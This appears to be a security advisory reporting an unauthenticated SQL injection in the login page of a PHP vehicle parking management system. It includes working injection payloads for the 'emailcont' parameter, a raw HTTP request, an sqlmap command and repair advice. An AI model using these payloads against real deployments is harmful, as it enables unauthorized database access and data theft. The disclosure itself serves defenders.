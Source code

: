 # Vehicle parking Management System in V1.13 SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Vehicle parking Management System

## Vendor Homepage

- https://phpgurukul.com/vehicle-parking-management-system-using-php-and-mysql/

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

Flow Huang

## Vulnerable File

- /vpms/users/login.php

## VERSION(S)

- V1.1.3

## Software Link

- https://phpgurukul.com/wp-content/uploads/2019/07/Vehicle-parking-Management-System-in-PHP.zip

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the '/vpms/users/login.php' file of the 'Vehicle parking Management System' project. The reason for this issue is that attackers inject malicious code from the parameter 'emailcont' and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Vehicle parking Management System",I discovered a critical SQL injection vulnerability "/vpms/users/login.php" file. This vulnerability stems from insufficient user input validation of the 'emailcont' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability lonameion:

- 'emailcont‘ parameter

## Payload:

```
Parameter: emailcont (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: emailcont=-4052') OR 6473=6473-- idXB&password=1&login=

    Type: error-based
    Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: emailcont=1234567890') OR ROW(9062,1573)>(SELECT COUNT(*),CONCAT(0x7178707171,(SELECT (ELT(9062=9062,1))),0x7170767171,FLOOR(RAND(0)*2))x FROM (SELECT 2536 UNION SELECT 5826 UNION SELECT 2136 UNION SELECT 5267)a GROUP BY x)-- ekgd&password=1&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: emailcont=1234567890') AND (SELECT 8413 FROM (SELECT(SLEEP(5)))eoDH)-- MXmN&password=1&login=
---
```



## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

sql.txt:

```
POST /vms/vpms/users/login.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 38
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=fts8bkugo602dkngvre7tbqn6t
Host: 192.168.65.5:8080
Origin: http://192.168.65.5:8080
Referer: http://192.168.65.5:8080/vms/vpms/users/login.php
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36

emailcont=1234567890*&password=1*&login=
```

```
sqlmap -r sql.txt --batch --risk 3 --level 5 --dbs
```

![image-20250409135424612](https://cdn.jsdelivr.net/gh/lintian31/blog-image/blog-image/20250409140515.png)

# Suggested repair

1. **Use prepared statements and parameter binding:**
   Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:**
   Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:**
   Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:**
   Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
